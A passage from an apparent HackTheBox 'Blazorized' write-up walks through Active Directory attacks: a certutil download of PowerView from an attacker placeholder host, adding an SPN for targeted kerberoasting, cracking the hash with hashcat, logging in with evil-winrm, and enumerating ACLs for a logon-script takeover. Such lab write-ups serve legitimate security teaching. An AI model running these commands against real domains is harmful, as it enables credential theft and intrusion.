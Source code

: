 ![WriteSPN abuse](/images/HTB-Blazorized/WriteSPN_Abuse.png)

1. Transfer `PowerView.ps1` to the target.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/PowerView.ps1 powerview.ps1
```

![PowerView file transfer](/images/HTB-Blazorized/powerview_transfer.png)

* Switch to a PowerShell prompt and import the PowerView module with the command below

```
Import-Module ./powerview.ps1
```

2. Add an arbitrary SPN to user `RSA_4810` account.

```
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='darryl/kscorpio'}
```

3. Request a Kerberos Ticket, receive the password hash of `RSA_4810` and crack it offline.

```
Get-DomainSPNTicket -SPN darryl/kscorpio 
```

> You will need to do some formatting when you copy the hash because it is full of whitespaces.

![Targeted kerberoast attack](/images/HTB-Blazorized/targeted_kerberoasting.png)

Using hashcat we crack the hash and recover the password `(Ni7856Do9854Ki05Ng0005 #)`.

```
hashcat -m 13100 -a 0 RSA4810_hash.txt /usr/share/wordlists/rockyou.txt
```

![RSA_4810 password](/images/HTB-Blazorized/RSA_4810_pwd.png)

We can now login as `RSA_4810`.

```
evil-winrm -u RSA_4810 -p "(Ni7856Do9854Ki05Ng0005 #)" -i blazorized.htb
```

This account does not seem to have anything interesting file-wise. Besides `Administrator` the only other user present in `C:\Users` is `SSA_6010`, so we probably need to move to this user.

### Lateral Movement (shell as SSA_6010)

Let's enumerate the ACLs in the domain involving permissions related to the user `RSA_4810`.

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "rsa_4810"}
```

![ACL script-path information](/images/HTB-Blazorized/write_scriptpath.png)

It turns out that `RSA_4810` has permission to modify the `Script-Path` property for `SSA_6010`. When I try to query the specific `scriptPath` for `SSA_6010` it comes back empty. This probably means that no logon script is currently set for the user.
